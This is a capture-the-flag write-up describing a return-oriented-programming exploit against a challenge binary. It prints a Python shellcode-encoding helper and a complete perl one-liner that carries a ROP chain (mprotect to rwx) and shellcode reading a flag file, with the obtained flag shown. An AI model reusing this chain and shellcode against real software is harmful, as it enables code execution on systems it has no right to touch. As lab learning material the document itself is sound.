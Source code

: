 So I needed to make sure that `rbx` and `rbp` were equal, otherwise the code jumps away and I inevitably got a crash. I solved that problem by setting `rbx` to `rbp-1`. Only thing left was to adjust `esi` and away we go! With the problem of setting `edx` out of the way, I could call mprotect to set `0x20000000` to rwx and read in the shellcode. This needed to be run from the shell that I obtained from exploiting the first binary. 

I sprinkled in some [shellcode magic](http://www.shell-storm.org/shellcode/files/shellcode-878.php) and was able to exploit the binary locally!

Remotely, I ran into a problem: I could not make files on the remote system, nor was python installed. I rewrote the exploit to dump the shellcode as printable bytes:


```python
shellcode = payload.encode('hex')

output = ""

for i in range(len(shellcode)/2):
    output += "\\x" +shellcode[i*2:i*2+2]

print output
```

I tried to run the exploit and shellcode using various combinations of echo and printf (also after spawning /bin/bash) but nothing seemed to work. It seemed the exploit didn't work with those two bash builtins, while it did with python. I looked for a replacement and lo and behold: perl was installed on the remote box! I rewrote the exploit to read `flag` instead of `/etc/passwd`. For this, I had to adjust the offset:

```
xor byte [rdi + 11], 0x41
-->
xor byte [rdi + 4], 0x41
```

And **finally**, starting from the first binary:

```bash
root@kali:~# python exploit.py
id
uid=1000(shellcodeme) gid=1000(shellcodeme) groups=1000(shellcodeme)
(perl -e 'print "\x90\x06\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x8a\x06\x40\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x08\x10\x60\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\x00\x00\x00\x00\x71\x06\x40\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x8a\x06\x40\x00\x00\x00\x00\x00\xff\x03\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x28\xf0\x5f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x71\x06\x40\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x00\x00\x00\x20\x00\x00\x00\x00"'; perl -e 'print "\xeb\x3f\x5f\x80\x77\x04\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xffflag\x41"') | ./shellcodeme2
ADCTF_I_l0v3_tH15_4W350M3_m15T4K
```

This one was tough, but a fun one nonetheless! ROP all the things! =)


